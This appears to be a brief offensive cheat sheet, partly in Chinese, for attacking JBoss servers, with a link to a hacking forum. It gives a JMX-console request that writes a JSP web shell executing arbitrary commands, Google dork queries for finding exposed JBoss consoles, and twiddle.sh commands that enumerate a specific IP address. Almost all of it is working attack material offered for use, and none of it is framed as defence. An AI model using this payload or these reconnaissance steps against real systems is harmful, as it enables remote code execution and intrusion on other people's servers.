http://www.hack80.com/thread-22662-1-1.html

?action=invokeOpByName&name=jboss.admin:service=DeploymentFileRepository&methodName=store&argType=java.lang.String&arg0=shell.war&argType=java.lang.String&arg1=shell&artType=java.lang.String&arg2=.jsp&artType=java.lang.String&arg3=<% Runtime.getRuntime().exec(request.getParameter("c")); %>&argType=boolean&arg4=True

寻找JBoss服务器的方法：

inurl:"jmx-console/HtmlAdaptor"
intitle:"Welcome to JBoss"


get server info
./twiddle.sh -s service:jmx:rmi:///jndi/rmi://139.224.74.135:1090/jmxrmi get jboss.system:type=ServerInfo

list all deployed web applicaitons
./twiddle.sh -s service:jmx:rmi:///jndi/rmi://139.224.74.135:1090/jmxrmi query "jboss.web.deployment:*"
